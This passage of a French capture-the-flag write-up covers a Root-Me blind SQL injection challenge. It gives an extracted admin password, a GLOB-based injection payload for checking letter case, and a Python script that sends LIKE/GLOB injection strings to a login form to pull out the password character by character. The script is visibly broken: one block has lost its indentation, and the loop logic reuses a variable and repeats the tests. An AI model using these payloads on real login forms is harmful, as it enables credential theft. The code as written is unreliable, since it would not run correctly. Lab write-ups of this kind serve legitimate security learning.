 
Ce qui nous donne le password suivant :

```
e2azo93i
```

Le problème maintenant c'est que le LIKE que nous utilisons dans nos script ne prend pas la casse des minuscules majuscule, donc il faut aussi pour chaque lettre qui a fonctionner, tester si elle est en majuscule ou en minuscule.

On va rajouter dans notre premier code, a chaque fois qu'il va trouver un caractère dans le mot de passe, il va renvoyer une requête qui cette fois si ressemblera a celle-ci : 

```sql
OR (SELECT password where username = 'admin' ) GLOB '*A*' --
```

Le code deviens : 

```python
import requests, string, re

url = "http://challenge01.root-me.org/web-serveur/ch10/"

def main():
	 password_caractere = trouverCaractere(url)
	 print(password_caractere)

def trouverCaractere(url):
	 chiffres = ""
	 caractere_dans_passwd = ""
	 for i in range(10):
		 chiffres += str(i)
		 caractere_list = str(string.ascii_lowercase) + str(chiffres)
		 for i in caractere_list:
			 requete = f"' OR (SELECT password where username = 'admin' ) LIKE '%{i}%' --"
			 r = requests.post(url, data={'username': requete, 'password': "a"})
			 html_reponse = r.text
			 matches = re.search(r"Welcome", html_reponse)
			 try:
				 if matches.group(0) == "Welcome":
				 requete2 = f"' OR (SELECT password where username = 'admin' ) GLOB '*{i.upper()}*' --"
				 print(requete2)
				 r2 = requests.post(url, data={'username': requete2, 'password': "a"})
				 html_reponse2 = r2.text
				 matches2 = re.search(r"Welcome", html_reponse2)
				 try:
					 if matches2.group(0) == "Welcome":
						 caractere_dans_passwd = str(caractere_dans_passwd) + str(i.upper())
				 except:
					 caractere_dans_passwd = str(caractere_dans_passwd) + str(i)
			 except:
				 pass
	 return caractere_dans_passwd
```
